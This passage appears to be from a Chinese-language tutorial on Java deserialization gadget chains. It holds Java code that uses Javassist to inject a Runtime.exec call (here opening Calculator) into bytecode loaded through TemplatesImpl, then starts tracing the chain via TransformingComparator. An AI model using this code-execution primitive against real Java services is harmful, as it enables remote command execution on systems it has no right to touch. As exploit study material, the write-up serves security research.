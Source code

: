 ```java
public class JDemo {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "TestDemo");
        setFieldValue(templates, "_class", null);
        // 因为代码中存在 _tfactory.getExternalExtensionsMap() 所以需要 _tfactory 进行赋值 不能为null，这里与 JDK 版本有关
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }
        return field;
    }
}
```

## Gadget chain

沿用之前 CC1 的思路，目前的核心目的是寻找调用 ChainedTransformer 的 `transform` 的类

看一下 `TransformingComparator#compare` ,在上面构造函数实例化对象的时候给 `this.transformer` 附值为传入的 transformer，这里直接调用 transform 方法，符合我们的构造条件
